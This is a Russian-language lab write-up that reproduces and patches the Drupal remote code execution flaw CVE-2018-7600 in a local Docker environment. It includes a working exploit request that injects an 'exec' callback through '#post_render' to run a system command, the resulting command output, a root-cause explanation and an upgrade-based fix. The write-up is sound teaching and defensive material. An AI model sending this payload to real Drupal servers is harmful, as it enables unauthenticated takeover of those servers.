


# Отчет по уязвимости CVE-2018-7600 (Drupalgeddon 2)

## Название уязвимости
**CVE-2018-7600** - Удаленное выполнение кода без аутентификации в Drupal (Drupalgeddon 2)

## Краткое описание
CVE-2018-7600 - критическая уязвимость удаленного выполнения кода в системе управления контентом Drupal, позволяющая неаутентифицированным злоумышленникам выполнять произвольные команды на уязвимом сервере. Уязвимость затрагивает множественные подсистемы Drupal при использовании конфигураций по умолчанию.

## Последовательность действий по воспроизведению уязвимости

### 1. Запуск уязвимой среды
```bash
# Скачивание и запуск уязвимого окружения
docker-compose up -d
```



### 2. Установка Drupal
- Открыть `http://localhost:8080` в браузере
- Выбрать установку с профилем "Standard"
- Использовать SQLite в качестве базы данных
- Завершить установку Drupal



### 3. Эксплуатация уязвимости
Отправка malicious-запроса через Burp Suite:

```http
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: localhost:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

[screenshot_exploit_request](./3.png)

### 4. Результат эксплуатации (уязвимая версия)
Уязвимая версия Drupal 8.5.0 выполняет команду `id` и возвращает результат:

```json
[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
```

[screenshot_exploit_success](./4.png)

[screenshot_exploit_success](./5.png)
## Анализ Root Cause

### Причина уязвимости
Уязвимость возникает из-за недостаточной валидации пользовательского ввода в Form API Drupal. Система обрабатывает параметры запроса как "render arrays" (массивы отрисовки), где ключи, начинающиеся с `#`, имеют специальное значение.

**Ключевая проблема**: Drupal доверял пользовательскому вводу и позволял передавать специальные параметры с префиксом `#`, которые должны контролироваться только внутренней логикой системы.

### Механизм эксплуатации
Атакующий может внедрить опасные callback-функции через следующие параметры:
- `#post_render` - выполняется после отрисовки элемента
- `#pre_render` - выполняется перед отрисовкой  
- `#access_callback` - проверка доступа
- `#lazy_builder` - ленивая загрузка

В эксплойте используется `#post_render` с функцией `exec` для выполнения системных команд.

## Описание примененного исправления

### Метод исправления
Было выполнено **обновление версии Drupal** до исправленной версии 8.5.1 через изменение конфигурации Docker.

### Измененные файлы

**docker-compose.yml:**
```yaml
services:
  web:
    image: drupal:8.5.1
    ports:
      - "8080:80"
    environment:
      - DRUPAL_DATABASE_DRIVER=sqlite
    volumes:
      - drupal_data:/var/www/html/sites/default/files
    command: >
      sh -c "
        chown -R www-data:www-data /var/www/html/sites/default/files &&
        apache2-foreground
      "
    user: root

volumes:
  drupal_data:
```

### Почему этот метод эффективен
Drupal 8.5.1 содержит патч, который introduces класс `RequestSanitizer` с методом `stripDangerousValues()`. Этот метод:
- Анализирует все параметры запроса
- Удаляет символ `#` из начала имен параметров
- Превращает опасные параметры `#post_render` в безопасные `post_render`
- Блокирует инъекцию callback-функций

## Доказательство устранения уязвимости

### Тестирование после исправления
После применения исправления тот же самый exploit-запрос возвращает:

```http
HTTP/1.1 200 OK
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
```

[screenshot_fixed_response](./6.png)

### Анализ результатов
- **Статус**: 200 OK (нормальная обработка запроса)
- **Ответ**: Стандартный AJAX-ответ Drupal без выполнения команд
- **Данные**: Пустой span элемент вместо вывода команды `id`
- **Вывод**: Уязвимость успешно устранена


## Приложенные файлы исправлений

### docker-compose.yml
```yaml
services:
  web:
    image: drupal:8.5.1
    ports:
      - "8080:80"
    environment:
      - DRUPAL_DATABASE_DRIVER=sqlite
    volumes:
      - drupal_data:/var/www/html/sites/default/files
    command: >
      sh -c "
        chown -R www-data:www-data /var/www/html/sites/default/files &&
        apache2-foreground
      "
    user: root

volumes:
  drupal_data:
```

## Заключение
Уязвимость CVE-2018-7600 была успешно воспроизведена и устранена. Примененное исправление через обновление до Drupal 8.5.1 эффективно блокирует возможность удаленного выполнения кода, сохраняя при этом всю основную функциональность системы.
